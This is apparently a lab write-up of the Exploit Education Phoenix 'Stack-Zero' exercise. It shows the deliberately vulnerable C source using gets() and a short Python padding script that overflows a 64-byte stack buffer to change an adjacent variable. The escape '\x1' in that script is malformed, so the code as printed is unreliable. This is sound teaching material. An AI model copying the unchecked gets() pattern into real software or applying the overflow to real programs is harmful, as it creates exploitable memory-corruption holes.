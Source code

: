 ```yaml
---
title: Exploit Education > Phoenix > Stack-Zero
date: '2021-09-20'
draft: false
slug: exploit-education-stack-zero
--- 
```


Stack-Zero consists of the following source code:

````
/*
 * phoenix/stack-zero, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable.
 *
 * Scientists have recently discovered a previously unknown species of
 * kangaroos, approximately in the middle of Western Australia. These
 * kangaroos are remarkable, as their insanely powerful hind legs give them
 * the ability to jump higher than a one story house (which is approximately
 * 15 feet, or 4.5 metres), simply because houses can't can't jump.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
````

Looking at the file, we can see that the code uses the vulnerable `gets` function. It copies all input from STDIN to the buffer without checking the input's size first. If we provide a string that is larger in the number of characters than the size of the allocated buffer, we can overwrite values in memory that come after it. 

Since `buffer` is of type `char[64]`, we can write 64 chars into stdin to 'pad' the input. After padding, we can then overwrite whatever comes after `buffer`, in this case `changeme`. Since writing and counting out 64 characters is a bit troublesome in `qemu`, we write a quick python file that does what we want.

``` 
# stack-zero.py

padding = '0' * 64
changeme = '\x1'

print(padding + changeme)
```

Now, since `stack-zero.c` wants its input via stdin and not as a command line argument, we pipe the input into it: `python3 stack-zero.py | ./stack-zero`. Doing this prints the message

```
> Well done, the 'changeme' variable has been changed!
```

meaning that we solved our first task!

